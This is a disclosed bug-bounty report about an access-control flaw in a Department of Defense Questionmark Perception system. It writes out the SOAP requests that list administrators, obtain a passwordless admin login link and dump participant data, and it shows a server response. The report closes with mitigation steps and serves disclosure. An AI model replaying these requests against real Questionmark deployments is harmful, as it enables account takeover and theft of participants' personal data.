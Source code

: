 # Unauthorized access to admin panel of the Questionmark Perception system at https://██████████

## Report Details
- **Report ID**: 1026146
- **URL**: https://hackerone.com/reports/1026146
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-04T18:35:21.067Z
- **Disclosed**: 2021-06-30T20:41:48.260Z

## Reporter
- **Username**: qdoan95
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
Due to the lack of access control, an anonymous attacker can compromise the administrator account on the Questionmark Perception system.

**Description:**
By using the service description which publicly accessible on the internet, and by bypassing the access control, an anonymous attacker can (ab)use the method provided by the system and get the administrator access on the Questionmark Perception system.

## Step-by-step Reproduction Instructions
- Visit https://██████/█████████ to get all the Questionmark Web Integration Services' description.
████

- The method **GetAdministratorList** returns a list giving the full details of all the administrators in the database, as described in https://███████/███?████

████████

- Issuing the request shown above, but remove all the code between the <soapenv:Header> and the </soapenv:Header> tag like the request below:

```
POST /███ HTTP/1.1
Host: ████
Content-Type: text/xml; charset=utf-8
Content-Length: 328
SOAPAction: "http://questionmark.com/QMWISe/GetAdministratorList"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetAdministratorList xmlns="http://questionmark.com/QMWISe/" />
  </soap:Body>
</soap:Envelope>
```
- The response shows us a list giving the full details of all the administrators in the database, included `Administrator_ID`, `Administrator_Name`, `Email`,...

█████

- The method **GetAccessAdministrator** processes an Administrator Name and returns a URL that enables the administrator to log in to Enterprise Manager (without using a password) if the administrator exists, so using the information we got above, we can (ab)use this method to get access to an administrator account.

```
POST /███████ HTTP/1.1
Host: ██████████
Content-Type: text/xml; charset=utf-8
Content-Length: 416
SOAPAction: "http://questionmark.com/QMWISe/GetAccessAdministrator"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetAccessAdministrator xmlns="http://questionmark.com/QMWISe/">
      <Administrator_Name>au_eliut</Administrator_Name>
    </GetAccessAdministrator>
  </soap:Body>
</soap:Envelope>
```
- The response gives us a link to login without using a password.

```
HTTP/1.1 200 OK
Cache-Control: private, max-age=0
Content-Type: text/xml; charset=utf-8
Server: 0
X-AspNet-Version: 2.0.50727
Strict-Transport-Security: max-age=63072000;includeSubDomains;preload
Date: Wed, 04 Nov 2020 18:18:46 GMT
Content-Length: 565
Set-Cookie: BIGipServer██████████████ path=/; Httponly; Secure

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><soap:Body><GetAccessAdministratorResponse xmlns="http://questionmark.com/QMWISe/"><URL>https://█████████/em5/exlogin.asp?CustomerID=AuthoringRepository&amp;USER=au_eliut&amp;EXPIRY=04:11:2020:13:18&amp;CHECKSUM=db69772f40b1a71179fd96e1bceebed003f3049e03a78e7d009c4627d387da2c</URL></GetAccessAdministratorResponse></soap:Body></soap:Envelope>

```
██████████
- Using the link above: `https://██████████/████████` to login as admin.

████████

## Suggested Mitigation/Remediation Actions
- Remove the service description at https://██████/█████████
- Re-configure the system, to deny all the request without the SOAP "Trust" header.

## Impact

Incorrect access restriction to the authorized interface of the site leads to information leakage. [As Questionmark describes,](https://support.questionmark.com/content/web-services) an admin can view all fields of the questions, the results, and personal information of the participants.

For example, issuing the request below to get all the participants' information such as username, password,...

```
POST /██████ HTTP/1.1
Host: ███████
Content-Type: text/xml; charset=utf-8
Content-Length: 326
SOAPAction: "http://questionmark.com/QMWISe/GetParticipantList"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetParticipantList xmlns="http://questionmark.com/QMWISe/" />
  </soap:Body>
</soap:Envelope>
```

█████

## Attachments
No attachments
